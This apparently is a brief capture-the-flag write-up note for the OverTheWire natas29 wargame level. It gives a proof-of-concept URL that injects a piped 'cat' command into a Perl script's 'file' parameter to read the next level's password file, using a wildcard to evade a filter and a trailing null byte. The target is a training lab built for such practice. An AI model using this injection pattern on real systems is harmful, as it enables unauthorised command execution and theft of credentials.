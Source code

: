 # <ins>Explain</ins>

## POC: http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/na?as_webpass/na?as30%00
(there is a hidden null byte in the end of the url).